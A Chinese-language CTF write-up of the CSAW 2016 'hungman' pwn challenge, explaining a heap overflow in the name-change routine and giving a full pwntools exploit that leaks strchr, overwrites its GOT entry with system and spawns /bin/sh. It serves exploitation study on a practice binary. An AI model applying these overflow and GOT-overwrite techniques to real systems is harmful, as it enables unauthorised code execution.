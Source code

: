 title: CSAW 2016 hungman writeup

date: 2016/09/19 17:48:00

---

300分的pwn

程序是一个简单的游戏，在你输入名字后，将名字存入malloc出的chunk中，然后会生成一个结构体，大概长这样：

<!--more-->

```
00000000 struc_obj       struc ; (sizeof=0x80)
00000000 score           dd ?
00000004 name_len        dd ?
00000008 namep           dq ?
00000010 content         db 112 dup(?)
00000080 struc_obj       ends
00000080
```

然后开始游戏主循环，在主循环中生成一个和名字大小相同的buf，然后将其与随机数一阵操作生成新的随机buf：

```
    for ( i = 0LL; name_len - 1 > i; ++i )
    {
      *((_BYTE *)buf + i) ^= *(_BYTE *)(objp->namep + i);
      *((_BYTE *)buf + i) = *((_BYTE *)buf + i) % 26u + 97;
    }
```
所以操作结束后buf中将只有小写字母的ascii码，然后打印一排"_"代表buf，接着就是接收输入字符，如果buf中有这个字符，就在下次对应位置打印这个字符而不是"_"，有三次机会可以猜错，机会用完后或者全部猜出来后会获得一次修改名字的机会，这里就是漏洞所在，如果输入的名字比原来的长就可能发生溢出，因为操作长这样：

```
if ( objp->score > score_history )
    {
      puts("High score! change name?");
      __isoc99_scanf(0x40114FLL, &v3);          // %c
      if ( v3 == 121 )
      {
        namep = malloc(0xF8uLL);
        memset(namep, 0, 0xF8uLL);
        new_name_len = read(0, namep, 0xF8uLL);
        objp->name_len = new_name_len;
        v14 = strchr((const char *)namep, 10);
        if ( v14 )
          *v14 = 0;
        memcpy((void *)objp->namep, namep, new_name_len);// ---- overflow  
        free(namep);
      }
      snprintf(byte_602100, 0x200uLL, "Highest player: %s", objp->namep);
      score_history = objp->score;
    }
```

所以如果我们一开始较长的name，那么buf中所有字母基本就都会出现，依次把所有字母输一圈就可以赢得游戏获得改名字的机会，就可以更改较长的名字首先泄漏strchr地址，然后再赢得一次游戏将strchr@got替换位system，然后再赢得一次将name换为/bin/sh触发system就可以了。

但是这里有几个坑，在这里记录一下：
一是一开始选择泄漏函数的时候选了free，但是发现free地址低位是\x00正好截断，所以就换了strchr（不过偏移一位再泄漏free也可以）。
二是选择了strchr后，但是对应的strchr@got上填的地址是strchr_see2，应该是某种优化，所以这里又耽搁了一下。
三是在最后发送system地址过去的时候不能使用sendline，只能使用send，因为sendline导致9个字符被memcpy过去，导致strchr@got下面的printf@got被破坏，崩溃了没得玩了。
四是不知为何在第一次发送name的时候前面必须加个time.sleep(0.1)，或者在play()中加个print recv，否则就可能成功可能失败，这里到现在我也不知道是因为什么，调试的话一点问题也没有，所以到现在还是憋着找不出原因。

参考exploit：

```python
from pwn import *

letters='abcdefghijklmnopqrstuvwxyzz'
name='A'*32
p=process('./hungman')
free_got=0x602018
strchr_got=0x602038
#context.log_level='debug'

def getpid(name):
	pid= pwnlib.util.proc.pidof(name)
	log.info(pid)
	raw_input('continue')

def play():
	print '-- play --'
	for c in letters:
		recv=p.recvline()
		print recv
		if recv.startswith('High score! change name?'):
			# I do not know why it need to print recv here,
			# or it will failed to recieve in line 42
			# time.sleep(0.1) can works here too. why ???
			print recv
			print '[*] win!'
			p.sendline('y')
			return
		if recv.startswith('Default Highscore  score: 64'):
			print '[-] try again...'
			p.recvuntil('Continue? ')
			p.sendline('y')
			return play()
		p.sendline(c)	

p.recvline()
p.sendline('A'*30)
p.recvline()
play()
p.sendline(name+p64(0x0)+p64(0x91)+p32(0x52)+p32(0xc9)+p64(strchr_got))
#context.update(terminal=['tmux','splitw','-h'])
#gdb.attach(p,'b *0x0000000000400E77')

p.recvuntil('Highest player: ')
strchr_addr=p.recvuntil(' score:')[:-7]
strchr_addr=u64(strchr_addr.ljust(8, '\0'))

# actually it is address of strchr_see2, not strchr
print 'strchr addr: '+hex(strchr_addr)
system_addr=strchr_addr-0x30-0x000000000007ff70+0x0000000000041490
print 'system addr: '+hex(system_addr)

p.recvuntil('Continue? ')
p.sendline('y')
play()
# getpid('hungman')
# can not use sendline() here cause it will crash printf@got.plt
p.send(p64(system_addr))
p.recvuntil('Continue? ')
p.sendline('y')
play()
p.sendline('/bin/sh')
p.interactive()
```





